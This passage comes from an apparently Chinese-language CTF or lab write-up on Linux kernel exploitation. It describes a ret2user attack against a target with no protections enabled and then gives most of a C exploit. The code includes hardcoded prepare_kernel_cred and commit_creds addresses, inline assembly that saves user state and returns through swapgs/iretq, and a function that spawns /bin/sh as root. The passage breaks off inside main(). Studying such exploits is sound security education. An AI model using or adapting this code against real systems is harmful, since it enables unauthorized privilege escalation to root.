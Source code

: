 由于什么保护都没有打开，可以直接ret2user

所以利用思路就是在exp代码中构造提权函数`commit_creds(prepare_kernel_cred(0));`以及恢复寄存器的函数，计算好偏移后直接覆盖内核中的返回地址为exp中用户态代码，完成提权

![](https://tva1.sinaimg.cn/large/0081Kckwly1glwh3lm4ekj30u00wnjuh.jpg)

exp：

```c
//gcc -static -o exp exp.c

#include <stdio.h>
#include <pthread.h>
#include <unistd.h>
#include <stdlib.h>
#include <sys/ioctl.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>

#define KERNCALL __attribute__((regparm(3)))

void* (*prepare_kernel_cred)(void*) KERNCALL = (void*) 0xffffffff810b9d80; // TODO:change it
void (*commit_creds)(void*) KERNCALL = (void*) 0xffffffff810b99d0; // TODO:change it

unsigned long user_cs, user_ss, user_rflags, user_sp;

void save_stat() {
    asm(
        "movq %%cs, %0;"
        "movq %%ss, %1;"
        "movq %%rsp, %2;"
        "pushfq;"
        "popq %3;"
        : "=r" (user_cs), "=r" (user_ss), "=r" (user_sp), "=r" (user_rflags) : : "memory");
}

void shell()
{
	system("/bin/sh");
	exit(0);
}

int get()
{
	commit_creds(prepare_kernel_cred(0));
	asm(
		"pushq   %0;"
		"pushq   %1;"
		"pushq   %2;"
		"pushq   %3;"
		"pushq   $shell;"
		"pushq   $0;"
		"swapgs;"
		"popq    %%rbp;"
		"iretq;"
		::"m"(user_ss), "m"(user_sp), "m"(user_rflags), "m"(user_cs)
	);
}


int main()
{
	save_stat();
```